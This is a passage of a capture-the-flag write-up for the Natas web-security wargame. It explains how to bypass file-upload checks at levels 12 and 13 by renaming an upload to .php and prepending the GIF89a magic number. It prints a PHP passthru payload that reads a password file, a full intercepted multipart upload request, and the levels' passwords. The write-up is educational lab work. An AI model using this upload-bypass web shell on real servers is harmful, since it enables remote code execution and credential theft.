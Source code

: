 We change the `.jpg` filename to `natas12.php`, or any filename with the `.php` extension. Sent the changed POST request to the server, the path to the uploaded `.php` file should appear on the web page. Clicking on the link will lead to the result of executing `.php` file, which is the password of the next level.

natas13: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

# Natas 13

Same idea, but this time there is an additional check in `exif_imagetype`, which only reads the first bytes of a file to check its signature (or in other words, check the Magic Number of the file). We hence have to put the magic number of image files to the header of the PHP file. PHP file does not really complain if there is some text before the `php` code portion. 

We can pick `GIF`, it is a valid type for a image. GIF has the magic number, in ASCII of `GIF89a`. Put this before the `php` portion of the code and we should be able to bypass the check.

In particular, the file content will be like: 

```php
GIF89a
<?php
    passthru("cat /etc/natas_webpass/natas14")
?>
```

Again, turn on the Burp Suite browser and the Proxy Intercept function. Change the `filename` of the POST request form to anything ends with `.php`. An example, in the payload portion of the POST request, can be: 

```
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="filename"

9q708avz39.php
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="uploadedfile"; filename="natas13.php"
Content-Type: application/octet-stream

GIF89a
<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
------WebKitFormBoundarya8snrslosPiK9vI2--
```

Following the link to the uploaded resource, we can see the GIF magic number that we prepend to the PHP code and the result of the command in `passthru()`

natas14: `qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`
